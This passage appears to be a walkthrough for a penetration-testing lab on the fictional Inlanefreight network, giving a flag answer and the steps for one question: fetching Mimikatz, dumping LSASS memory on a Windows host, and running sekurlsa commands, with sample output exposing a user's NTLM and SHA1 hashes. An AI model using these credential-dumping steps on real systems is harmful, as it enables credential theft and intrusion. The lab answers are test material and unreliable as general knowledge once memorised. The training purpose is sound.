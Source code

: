 **Expected Flag Format:** `S1ngl3-Piv07-3@sy-Day`

---

#### Question 5: Find vulnerable user with exposed credentials
**Task:** In previous pentests against Inlanefreight, they have a bad habit of utilizing accounts with services in a way that exposes the users credentials and the network as a whole. What user is vulnerable?

### Solution: LSASS Memory Dump Analysis with Mimikatz

#### Step 1: Download Mimikatz on Kali
```bash
wget https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip
unzip mimikatz_trunk.zip
```

#### Step 2: Transfer Mimikatz to Windows Target
1. Navigate to `x64/` folder in extracted mimikatz
2. Using the existing RDP session to 172.16.5.35:
   - Copy `mimikatz.exe` from Kali
   - Paste into Windows Desktop or Documents folder

#### Step 3: Create LSASS Dump File
1. **Right-click on taskbar** → Select **Task Manager**
2. **Run Task Manager as Administrator:**
   - Click **More details** if in compact view
   - Go to **Processes** tab
   - Find **Local Security Authority Process** (lsass.exe)
   - **Right-click** on it → **Create dump file**
3. **Note the dump location:** `C:\Users\mlefay\AppData\Local\Temp\lsass.DMP`

#### Step 4: Analyze Dump with Mimikatz
1. **Launch mimikatz.exe** (double-click or run as administrator)
2. **Load the minidump:**
```cmd
mimikatz # sekurlsa::minidump C:\Users\mlefay\AppData\Local\Temp\lsass.DMP
```

3. **Extract logon passwords:**
```cmd
mimikatz # sekurlsa::LogonPasswords
```

#### Step 5: Identify Vulnerable User
**Expected Output (relevant section):**
```
Authentication Id : 0 ; 160843 (00000000:0002744b)
Session           : Service from 0
User Name         : vfrank
Domain            : INLANEFREIGHT
Logon Server      : ACADEMY-PIVOT-D
Logon Time        : 11/20/2022 10:09:13 AM
SID               : S-1-5-21-3858284412-1730064152-742000644-1103
        msv :
         [00000003] Primary
         * Username : vfrank
         * Domain   : INLANEFREIGHT
         * NTLM     : 2e16a00be74fa0bf862b4256d0347e83
         * SHA1     : b055c7614a5520ea0fc1184ac02c88096e447e0b
         * DPAPI    : 97ead6d940822b2c57b18885ffcc5fb4
        tspkg :
        wdigest :
         * Username : vfrank
         * Domain   : INLANEFREIGHT
```